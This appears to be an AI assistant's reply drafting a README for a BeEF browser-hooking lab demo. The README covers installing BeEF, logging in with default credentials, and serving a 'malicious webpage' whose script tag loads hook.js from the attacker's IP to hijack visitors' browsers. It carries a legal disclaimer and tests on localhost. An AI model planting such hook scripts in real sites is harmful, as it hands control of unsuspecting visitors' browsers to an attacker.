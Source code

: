 Here's a professional `README.md` file for your GitHub repository based on your requirements:

```markdown
# BeEF-XSS Browser Hook Demonstration

This repository demonstrates how to set up BeEF (Browser Exploitation Framework) to hook browsers visiting a malicious webpage.

## 🚀 Quick Setup Guide

### Prerequisites
- Kali Linux (or any Debian-based distro)
- Apache web server
- sudo privileges

### Installation & Setup

1. **Install BeEF-XSS**
   ```bash
   sudo apt update && sudo apt install beef-xss -y
   ```

2. **Navigate to BeEF directory**
   ```bash
   cd /usr/share/beef-xss
   ```

3. **Configure BeEF (optional)**
   ```bash
   sudo nano config.yaml
   ```
   - Modify default credentials if needed

4. **Start BeEF**
   ```bash
   sudo beef-xss
   ```
   - Note: If port 3000 is busy, run:
     ```bash
     sudo kill $(sudo lsof -t -i:3000)
     ```

5. **Access BeEF Control Panel**
   - Open browser to: `http://127.0.0.1:3000/ui/panel`
   - Login with default credentials: `beef:beef`

6. **Set up malicious webpage**
   ```bash
   cd /var/www/html
   sudo rm index.html
   sudo nano index.html
   ```
   Paste this content (replace `<your ip address>` with your actual IP):
   ```html
   <html>
   <head>
   <script src="http://<your ip address>:3000/hook.js"></script>
   </head>
   <body>
   <H1>Beautiful Website!!!</H1>
   </body>
   </html>
   ```

7. **Restart Apache**
   ```bash
   sudo service apache2 stop
   sudo service apache2 start
   ```

8. **Test the hook**
   - Open a new browser tab to: `http://localhost/`
   - The visitor should appear in BeEF's "Online Browsers" section

## 🔍 Finding Your IP Address
Run the following command to find your local IP:
```bash
ifconfig
```
Look for `inet` under your network interface (typically `eth0` or `wlan0`).

## 🛡️ Legal Disclaimer
This tool is provided for **educational and authorized penetration testing purposes only**. Unauthorized use against systems you don't own or have permission to test is illegal.

## 📌 Troubleshooting
- **Port 3000 in use?** Kill existing process:
  ```bash
  sudo kill $(sudo lsof -t -i:3000)
  ```
- **BeEF not starting?** Check logs or run in debug mode:
  ```bash
  sudo beef-xss --debug
  ```
- **Apache issues?** Verify permissions:
  ```bash
  sudo chown -R www-data:www-data /var/www/html
  ```

## 📚 Resources
- [Official BeEF Project](https://beefproject.com/)
- [BeEF Documentation](https://github.com/beefproject/beef/wiki)
```

This README includes:
1. Clear step-by-step instructions
2. Code blocks for easy copying
3. Troubleshooting section
4. Legal disclaimer
5. Proper formatting for GitHub

Would you like me to add any additional sections like:
- Video demonstration link
- Screenshots of expected results
- Advanced configuration options?

